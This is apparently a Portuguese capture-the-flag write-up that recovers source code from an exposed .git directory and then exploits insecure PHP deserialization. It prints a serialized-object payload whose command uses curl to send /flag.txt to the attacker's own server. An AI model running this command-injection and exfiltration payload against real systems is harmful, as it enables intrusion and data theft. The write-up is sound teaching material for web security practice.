







## A2 - Web App Challenge

### Flag 1
Descrição
``` text
Precisamos retomar o controle do site da companhia de abastecimento das mãos dos terroristas. Nosso primeiro passo é tentar repetir os passos deles para descobrir como recuperaram o código fonte.

Recupere o código-fonte desta página.

Acesse: URL
```


Nos é passada uma missão para recuperar o código-fonte da página e uma URL. Logo, nossa primeira ideia é deduzir se por código-fonte estamos falando do HTML (frontend) ou do código que está no servidor e é responsável por prover esta página.

Ao acessar a URL e verificar o código-fonte nos deparamos com o seguinte comentário HTML: `<!-- salvo no git há 15 minutos -->`

Isso pode parecer uma primeira deixa para o que seria o objetivo do desafio. Se imaginarmos que estamos em busca do código-fonte da aplicação no backend, já que o HTML não tem nada de interessante, podemos supor que precisamos descobrir um repositório utilizando o GIT.

Uma falha muito comum é quando o desenvolvedor deixar o repositório GIT como o diretório utilizado pelo servidor de aplicação Web. Com isso, o diretório oculto `.git` também fica acessível na estrutura de diretórios do servidor Web. Ao tentar acessar o endereço `http://URL/.git` recebemos como resposta `Forbidden`, isso pode ser uma configuração do servidor para impedir arquivos ocultos ou apenas impedindo a listagem de diretórios, desta forma podemos tentar acessar um arquivo padrão dentro da estrutura de diretórios do GIT, que seria o `HEAD`. Utilizando o comando curl abaixo podemos notar que de fato há um repositório GIT dentro do `document root` do servidor de aplicação.

```shell
% curl -s http://18.231.191.84/.git/HEAD
ref: refs/heads/master
```

Diante deste fato basta agora fazer o download de todo o repositório para a máquina local e inspecionar os logs e 
commits em busca do código fonte. Para isso podemos utilizar uma ferramenta que extrai a estrutura do repositório, 
como a `git-dumper` disponível em (https://github.com/arthaud/git-dumper)[https://github.com/arthaud/git-dumper]. Para instalar a executar seguimos os 
passos a seguir (já com Python 3 instalado):

```shell
git clone https://github.com/arthaud/git-dumper.git
cd git-dumper
python3 -m pip install -r requirements.txt
```

Com o repositório salvo localmente, agora podemos verificar o histórico de commits através do log, para isso executamos o seguinte comando:

```shell
cd repositorio
git logs
python3 git_dumper.py http://URL_desafio/.git desafio
```

Ao executar o script acima teremos a seguinte saída, conforme imagem abaixo:


Agora precisamos verificar os logs do repositório, através dos comandos abaixo:

```shell 
git log
```
Obtemos a seguinte saída:


Detectamos que há um commit anterior no repositório, o commit X. Executando o comando abaixo podemos verificar quais arquivos foram alterados.

```shell 
git show --name-only 2b9613d5befa217ea7610aef6dc2c7ff04cfc2b4
```
Que nos dará a seguinte saída.


Notamos a existência do arquivo `secrets.txt`. Entretanto, esse arquivo não está mais no commit atual, se fizermos um `git show` no HEAD podemos obter a mudança feita com a retirada do arquivos.


Descobrimos a primeira flag: `YSH{RepoSitOrios_No_Document_Ro0T}`

---

### Flag 2
Descrição
````text
Continue sua investida para finalizar nosso ataque.

O que procuramos está em /flag.txt
````


Na segunda flag nos é informado apenas que devemos continuar a investida, logo como estamos diante do código-fonte da aplicação podemos fazer uma revisão do código para detectar algum comportamento estranho.

Ao abrirmos o conteúdo do arquivo `index.php` visualizamos o trecho de código abaixo.


Imediatamente podemos observar que a entrada do usuário `$_GET['segredo']` está sendo passada como argumento para a função `unserialize` o que pode resultar em desserialização insegura, ou mais precisamente object injection no PHP. Há também no início do arquivo um `include "classes.php"`. Como suspeitamos de desserialização, é primordial saber quais classes estão carregadas que podem ser desserializadas.


Observando o código acima, podemos perceber a presença da função `exec` usando o atributo `$this->username` como parte do argumento passado. A função `exec` é responsável por executar um programa externo, desta forma, se conseguirmos alterar o atributo `username` conseguiremos execução de comando no backend do sistema. Porém, como chamar o `__destruct` neste caso?

A função `__destruct` da classe em PHP será chamado assim que não houve referências para o objeto em questão, ou durante a sequência de finalização do script. Desta forma, o `__destruct` é o que chamamos de magic method, pois ele é chamado automaticamente.

Sendo assim, sabemos que ao finalizar a execução e destruir um objeto da classe `User` o método `__destruct` será chamado. Portanto, precisamos criar um objeto desta classe, definir o atributo username com nossa injeção de comando, serializar o objeto, encodar em base64 e enviar no parâmetro de URL `segredo`. Como o que estamos procurando está no /flag.txt do sistemas de arquivo, podemos utilizar uma comando para extrair essa informação.

```php
<?php

include 'src/classes.php';

$u = new User();
$u->username = '`curl -F "flag=@/flag.txt" http://meu_servidor`';

echo base64_encode(serialize($u));
```

Executando o código acima, teremos como resultado o objeto PHP serializado em base64. Porém, precisamos ter um 
servidor web, ou a porta 80 aberta, aguardando essa request para que possamos capturar o arquivo enviado. Por fim, acessamos a URL `http://18.231.191.84/?segredo=BASE64_AQUI` passando como valor do parâmetro `segredo` o base64 criado acima, e assim receberemos a seguinte request:


E capturamos a flag 2: `YSH{WOW_DESSERIALIZACAO_FTW_!!CONGRATS!!}`